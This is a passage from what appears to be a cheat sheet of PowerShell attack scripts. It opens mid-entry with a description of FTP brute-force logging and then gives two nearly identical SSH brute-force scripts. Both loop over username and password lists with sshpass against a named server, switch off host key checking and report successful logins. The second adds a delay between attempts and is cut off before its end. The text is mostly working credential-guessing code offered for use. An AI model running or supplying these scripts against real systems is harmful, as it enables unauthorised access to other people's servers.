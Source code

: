 **Description:**

Implements logging to record the results of FTP brute-force attempts, including timestamps and response details.

**Example:**

Log all login attempts for ftp.snowcapcyber.com to bruteforce_log.txt.

---

### Brute Forcing SSH Using PowerShell

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$sshServer = "ssh.snowcapcyber.com"
$sshPort = 22
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $sshCommand = "sshpass -p '$password' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $sshPort $username@$sshServer"
        try {
            Invoke-Expression -Command $sshCommand
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        } catch {
            Write-Host "Login failed: $username:$password - $_"
        }
    }
}
```

**Description:**

Automates brute-force login attempts for an SSH server by iterating through username and password combinations using sshpass.

**Example:**

Test all combinations of usernames from usernames.txt and passwords from passwords.txt against ssh.snowcapcyber.com.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$sshServer = "ssh.snowcapcyber.com"
$sshPort = 22
$delaySeconds = 2
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $sshCommand = "sshpass -p '$password' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $sshPort $username@$sshServer"
        try {
            Invoke-Expression -Command $sshCommand
            Write-Host "Login successful: $username:$password"
            # Perform additional actions
        } catch {
            $errorMessage = $_.Exception.Message
            Write-Host "Login failed: $username:$password - $errorMessage"
        }
        Start-Sleep -Seconds $delaySeconds
    }
```